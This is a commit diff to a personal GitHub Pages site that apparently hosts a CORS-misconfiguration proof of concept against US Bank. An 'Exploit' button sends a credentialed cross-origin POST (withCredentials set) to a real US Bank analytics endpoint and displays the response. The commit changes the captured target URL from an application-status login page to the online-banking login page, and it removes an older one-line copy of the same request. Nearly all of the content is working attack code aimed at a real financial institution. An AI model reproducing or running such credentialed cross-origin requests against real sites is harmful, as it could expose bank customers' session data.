

Before and after one commit to ernieballesp06/ernieballesp06.github.io, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "Exploit". Shown: the top 276 px of the page at 81% size, 1920 px wide, since content can reach past the window. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -17,7 +17,7 @@ function cors() {
       document.getElementById("demo").innerHTML = alert(this.responseText);
     }
   };
-  xhttp.open("POST", "https://smetrics.usbank.com/b/ss/usbankcom/10/JS-2.12.0/s99305071099406?AQB=1&ndh=1&pf=1&callback=s_c_il[1].doPostbacks&et=1&t=24%2F9%2F2019%2010%3A2%3A25%204%20300&d.&nsid=0&jsonv=1&.d&mid=86624203216440857181340244663306959729&aid=2ED8DE7B85031333-4000119AC000153D&aamlh=9&ce=UTF-8&ns=usbank&pageName=apply-usb%3Aapplication%3Aonline%20application%20status%3Aoas%20login&g=https%3A%2F%2Fapply.usbank.com%2Foas%2Foaslogin.html&r=https%3A%2F%2Fwww.google.com%2F&c.&vidAPICheck=VisitorAPI%20Present&et_dimensions=1349x576&et_width=1349&et_orientation=landscape&EVENTS=event17%2C&.c&cc=USD&events=event17&aamb=RKhpRz8krg2tLO6pguXWp5olkAcUniQYPHaMWWgdJ3xzPWQmdj0y&c1=application&c2=online%20application%20status&c3=D%3Dv3&v3=Repeat&c4=10%3A00AM&c5=4%3A00PM&v5=4%3A00PM&c6=Thursday&c7=10%2F24%2F2019&v9=prospect&c14=D%3Dg&v17=D%3Dc17&c18=Less%20than%201%20day&c19=3&c24=usb%3Aoas%3Aoaslogin.html&c25=D%3Dc24&c29=https%3A%2F%2Fapply.usbank.com%2Foas%2Foaslogin.html&v35=D%3DpageName&v37=D%3DUser-Agent&c40=online%20application%20status&v40=D%3Dprop2&c50=baseCore%7CAM_2.12.0%7C04.24.2019%7CVid_4.0.0&c53=D%3DpageName&v59=nh&c60=personal&v60=personal&v90=D%3Dg&s=1366x768&c=24&j=1.6&v=N&k=Y&bw=1366&bh=576&mcorgid=675616D751E567410A490D4C%40AdobeOrg&AQE=1", true);
+  xhttp.open("POST", "https://smetrics.usbank.com/b/ss/usbankcom/10/JS-2.12.0/s95225021289673?AQB=1&ndh=1&pf=1&callback=s_c_il[5].doPostbacks&et=1&t=24%2F9%2F2019%2011%3A50%3A3%204%20300&d.&nsid=0&jsonv=1&.d&sdid=6EFD65D0CDEDC01B-061A1A54E227B0A0&mid=86624203216440857181340244663306959729&aid=2ED8DE7B85031333-4000119AC000153D&aamlh=9&ce=UTF-8&ns=usbank&g=https%3A%2F%2Fonlinebanking.usbank.com%2FAuth%2FLogin&c.&vidAPICheck=VisitorAPI%20Present&appNameForSiteCat=OLB&appName_PERS=OLB&uxApp=false&uxNameForSiteCat=desktop&uxName_PERS=desktop&clientNameForSiteCat=standalone&et_dimensions=664x598&et_width=664&et_orientation=landscape&cd.&currentPage=omni%3Alogin%3Aenter%20username%20password&siteSection=login&subSiteSection=login&loginFormat=login%20combine%20username%20%26%20password%7C19.9.3&.cd&EVENTS=event17%2C&.c&events=event17&aamb=RKhpRz8krg2tLO6pguXWp5olkAcUniQYPHaMWWgdJ3xzPWQmdj0y&c3=D%3Dv3&v3=Repeat&c4=11%3A45AM&c6=Thursday&c7=10%2F24%2F2019&v9=prospect&c14=D%3Dg&c16=62&c17=olb%3Aauth%3Alogin&c18=Less%20than%201%20day&c19=4&c24=olb%3Aauth%3Alogin&v27=85e204b612214baca7a79b8d74030068.28_22&c29=https%3A%2F%2Fonlinebanking.usbank.com%2FAuth%2FLogin&v35=D%3DpageName&v37=D%3DUser-Agent&c40=online%20banking&c50=R%20April%202019%7CAM_2.12.0%7C05.14.2019%7CbaseOLB%7CVid_4.0.0&v90=D%3Dg&s=1366x768&c=24&j=1.6&v=N&k=Y&bw=681&bh=615&mcorgid=675616D751E567410A490D4C%40AdobeOrg&AQE=1", true);
   xhttp.withCredentials = true;
   xhttp.send();
 }
@@ -25,6 +25,3 @@ function cors() {
 
 </body>
 </html>
-
-
-var req = new XMLHttpRequest(); req.onload = reqListener; req.open('POST','https://smetrics.usbank.com/b/ss/usbankcom/10/JS-2.12.0/s99305071099406?AQB=1&ndh=1&pf=1&callback=s_c_il[1].doPostbacks&et=1&t=24%2F9%2F2019%2010%3A2%3A25%204%20300&d.&nsid=0&jsonv=1&.d&mid=86624203216440857181340244663306959729&aid=2ED8DE7B85031333-4000119AC000153D&aamlh=9&ce=UTF-8&ns=usbank&pageName=apply-usb%3Aapplication%3Aonline%20application%20status%3Aoas%20login&g=https%3A%2F%2Fapply.usbank.com%2Foas%2Foaslogin.html&r=https%3A%2F%2Fwww.google.com%2F&c.&vidAPICheck=VisitorAPI%20Present&et_dimensions=1349x576&et_width=1349&et_orientation=landscape&EVENTS=event17%2C&.c&cc=USD&events=event17&aamb=RKhpRz8krg2tLO6pguXWp5olkAcUniQYPHaMWWgdJ3xzPWQmdj0y&c1=application&c2=online%20application%20status&c3=D%3Dv3&v3=Repeat&c4=10%3A00AM&c5=4%3A00PM&v5=4%3A00PM&c6=Thursday&c7=10%2F24%2F2019&v9=prospect&c14=D%3Dg&v17=D%3Dc17&c18=Less%20than%201%20day&c19=3&c24=usb%3Aoas%3Aoaslogin.html&c25=D%3Dc24&c29=https%3A%2F%2Fapply.usbank.com%2Foas%2Foaslogin.html&v35=D%3DpageName&v37=D%3DUser-Agent&c40=online%20application%20status&v40=D%3Dprop2&c50=baseCore%7CAM_2.12.0%7C04.24.2019%7CVid_4.0.0&c53=D%3DpageName&v59=nh&c60=personal&v60=personal&v90=D%3Dg&s=1366x768&c=24&j=1.6&v=N&k=Y&bw=1366&bh=576&mcorgid=675616D751E567410A490D4C%40AdobeOrg&AQE=1,true); req.withCredentials = true; req.send('{}'); function reqListener() { alert(this.responseText); };
```
